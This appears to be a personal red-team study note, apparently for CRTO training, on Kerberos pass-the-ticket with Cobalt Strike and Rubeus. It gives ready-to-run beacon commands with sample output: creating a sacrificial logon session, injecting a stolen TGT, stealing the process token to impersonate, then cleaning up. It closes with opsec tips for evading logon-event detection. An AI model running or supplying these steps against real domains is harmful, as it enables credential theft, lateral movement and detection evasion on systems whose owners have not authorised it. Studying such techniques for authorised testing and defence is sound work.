 
Technique that allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to, or a new one you create.  Accessing a remote resource will then allow that authentication to happen via Kerberos.

The first step is to create a blank, "sacrificial" logon session that we can pass the TGT into.  We do this because a logon session can only hold a single TGT (krbtgt) at a time:

![[kerberos_sessions.png]]

  ### ⚠  Creating a new logon session and passing tickets into sessions other than your own requires elevated privileges.


## 🖊️ via [[Cobalt Strike]]

1) You need to first steal a TGT ticket, check [[Extracting Kerberos Tickets]] from Credential Theft section on [[Actions on Objectives]] 

2) Now we create a new process. Rubeus' `createnetonly` command will start a new hidden process of our choosing, using the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : False
[*] Username        : GJB9A2GP
[*] Domain          : VPY1XQRP
[*] Password        : R4ABN1K3
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4748
[+] LUID            : 0x798c2c
```
 
To avoid random username and password (opsec safer) use:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123
```

This also creates a new LUID.  It will have no tickets inside, so won't be visible with `triage` just yet.  

3) The next step is to pass the TGT into this new LUID using the Rubeus `ptt` command.  Where the `/luid` is the new LUID we just created and `/ticket` is the base64 encoded ticket we previously extracted:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

[*] Action: Import Ticket
[*] Target LUID: 0x798c2c
[+] Ticket successfully imported!
```

4) You can use the Rubeus triage command to double check that the new LUID was ticket injected
5) The final step is to impersonate the process that we created with createnetonly using Cobalt Strike's `steal_token` command.  At a minimum, this requires the PID of the target process, which in this example, is 4748.  We'll then be able to access the remote machine.

`beacon> steal_token 4748`

6) As before, use `rev2self` to drop the impersonation.  To destroy the logon session we created, simply kill the process with the `kill` command.
```
beacon> rev2self
beacon> kill 4748
```

### ⚠ Opsec
By default, Rubeus will use a random username, domain and password with CreateProcessWithLogonW, which will appear in the associated 4624 logon event.  The "Suspicious Logon Events" saved search will show 4624's where the _TargetOutboundDomainName_ is not an expected value.



### Properties
---
📆 created   {{11-02-2024}} 20:45
🏷️ tags: #redteam #crto 

---

